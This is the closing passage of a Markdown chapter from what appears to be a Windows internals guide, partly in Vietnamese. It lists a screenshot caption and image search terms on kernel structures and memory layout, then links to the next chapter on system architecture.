   - Alt text: "WinDbg kernel debugger showing EPROCESS structure details"

### Image search terms (cho manual reference)

- "Windows kernel architecture diagram ring 0 ring 3"
- "Windows process virtual address space layout x64"
- "Windows handle table process kernel object"
- "EPROCESS structure WinDbg output"
- "Windows page table virtual to physical address translation"

---

*Chapter 1 hoàn thành. Tiếp theo: [Chapter 2 — System Architecture](ch02-system-architecture.md)*
